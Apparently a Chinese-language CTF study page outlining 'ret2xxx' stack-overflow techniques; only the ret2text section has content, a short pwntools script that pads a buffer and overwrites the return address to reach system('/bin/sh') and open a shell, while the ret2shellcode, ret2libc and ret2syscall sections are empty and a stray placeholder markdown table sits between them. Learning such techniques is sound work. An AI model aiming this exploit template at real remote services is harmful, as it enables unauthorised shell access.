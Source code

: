 - [ret2xxx系列](#ret2xxx系列)
  - [ret2text](#ret2text)
  - [ret2shellcode](#ret2shellcode)
  - [ret2libc](#ret2libc)
  - [ret2syscall](#ret2syscall)

 # ret2xxx系列
 ## ret2text

  1.有 `system("/bin/sh");` 时

```python
from pwn import *

io = process('./pwn1')              # 本地测试
# io = remote('', )                 # ('ip' , 端口)

getshell_code = 0x12345678          # 包含system("/bin/sh");的函数的地址

padding = 0xF + 4                   # 偏移量, 32位程序
payload = b'a' * padding + p32(getshell_code)

# padding = 0xF + 8                 # 偏移量, 64位程序
# payload = b'a' * padding + p64(getshell_code)

io.sendline(payload)

io.interactive()

```


 | Syntax      | Description |
| ----------- | ----------- |
| Header      | Title       |
| Paragraph   | Text        |
 ## ret2shellcode

 ## ret2libc
 
 ## ret2syscall